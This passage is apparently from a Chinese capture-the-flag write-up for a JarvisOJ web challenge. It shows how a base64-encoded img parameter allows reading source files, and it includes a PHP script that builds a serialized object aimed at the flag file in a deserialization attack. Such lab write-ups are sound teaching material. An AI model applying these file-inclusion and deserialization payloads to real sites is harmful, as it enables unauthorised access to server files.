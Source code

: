 &emsp;&emsp;点进去一看就是一张图片，但是是被解析成脚本的，再解码一下img后面的参数为shield.jpg。猜测img参数存在文件包含漏洞，将index.php通过base64加密得到aW5kZXgucGhw，提交后得到下面的源码：

![](/img/JarvisOJ-WEB-1/WEB8.png)

&emsp;&emsp;接下来base64加密shield.php，提交c2hpZWxkLnBocA==，得到下图：

![](/img/JarvisOJ-WEB-1/WEB9.png)

&emsp;&emsp;直接访问pctf.php,`http://web.jarvisoj.com:32768/showimg.php?img=cGN0Zi5waHA=`却提示文件不存在。

&emsp;&emsp;回头重新分析index.php源码，发现参数输入class，反序列化函数和过滤，改写shield.php源代码。

```php
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
	$x = new Shield('pctf.php');
	echo serialize($x);
?>
```
